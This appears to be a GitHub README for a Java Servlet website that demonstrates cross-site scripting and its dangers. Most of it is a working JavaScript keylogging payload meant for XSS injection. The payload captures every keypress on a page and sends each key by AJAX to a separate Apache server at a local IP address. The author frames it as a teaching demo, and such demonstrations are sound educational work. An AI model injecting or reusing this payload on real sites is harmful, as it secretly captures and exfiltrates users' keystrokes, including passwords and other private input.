 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

![XSS](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

I hosted the website on my Tomcat Server and used Apache for Keylogging.

The payload for keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key);
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', #apache
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```

